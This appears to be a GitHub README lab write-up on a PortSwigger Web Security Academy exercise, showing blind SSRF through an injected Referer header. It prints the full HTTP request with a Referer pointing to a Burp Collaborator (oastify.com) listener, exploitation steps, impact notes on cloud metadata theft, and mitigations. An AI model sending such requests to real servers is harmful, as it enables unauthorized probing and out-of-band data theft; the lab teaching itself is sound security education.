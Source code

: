 # 📘 Scenario 3: Blind SSRF via `Referer` Header Injection

## 🔎 Vulnerability Description

In this scenario, the web application processes the `Referer` header on the server-side (e.g., for analytics or logging) without validating or sanitizing it. This creates an opportunity for a **Blind SSRF** attack, where an attacker can supply a malicious domain as the referer and trigger a server-initiated request to an external, attacker-controlled server.

> **Vulnerability Type:** Header Injection, Blind SSRF  
> **OWASP Top 10 ID:** A10:2021 – Server-Side Request Forgery  
> **Risk Level:** Medium to High (depending on data exposure)  

---

## 💡 What is Blind SSRF?

Unlike regular SSRF, **Blind SSRF** does not return visible results to the attacker. Instead, the attacker must monitor a separate out-of-band (OOB) channel such as:

- DNS logs
- HTTP logs on their server
- Burp Collaborator

---

## 🔧 Target

**URL:**


🔗 https://0a4200da04e2f6f5804c8f7b00040056.web-security-academy.net/

---

## 📥 HTTP Request

```http
GET /product?productId=1 HTTP/2
Host: 0a4200da04e2f6f5804c8f7b00040056.web-security-academy.net
Cookie: session=mKM2R2mlh6jw3GAJtgpnanPqbYnkeGnu
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://sb760ch7a69bhm7gl79lnbdv1m7dv3js.oastify.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3585

```
---

## 🧪 Exploitation Steps

Generate a Burp Collaborator URL or set up a DNS/http logging server (e.g., `canarytokens.org`).

Send a request to the target endpoint with the `Referer` header pointing to your OOB listener:
```Referer: https://abcd1234.burpcollaborator.net```
Monitor Burp Collaborator for incoming DNS/HTTP requests from the vulnerable server.

Confirm SSRF behavior even if the browser shows no visible result.

## 💥 Potential Impact

- **Out-of-band data exfiltration**: Sensitive data can be extracted silently.

- **Cloud metadata theft**: If combined with access to URLs like `http://169.254.169.254`.

- **Reconnaissance**: Discover internal network behavior based on DNS queries.

- **Precursor to RCE or lateral movement**.

## ✅ Mitigation Suggestions
- Do not rely on client-supplied headers like `Referer`, `Host`, or `X-Forwarded-For`.

- Validate and sanitize all input headers.

- Use allowlists for outbound traffic destinations.

- Monitor logs for abnormal external requests triggered from internal services.

## 📸 Screenshot

![Exploitation Image Of Scenario 3.1](https://github.com/hovikhanh/ssrf-demo/blob/main/images/Picture3.1.png "Exploitation Image Of Scenario 3.1")

![Exploitation Image Of Scenario 3.2](https://github.com/hovikhanh/ssrf-demo/blob/main/images/Picture3.2.png "Exploitation Image Of Scenario 3.2")

## 🔗 References

[OWASP Testing Guide – Testing for SSRF](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)

[Burp Collaborator Guide](https://portswigger.net/burp/documentation/collaborator)

> ⚠️ This scenario simulates Blind SSRF and requires external monitoring. Always test in authorized environments only.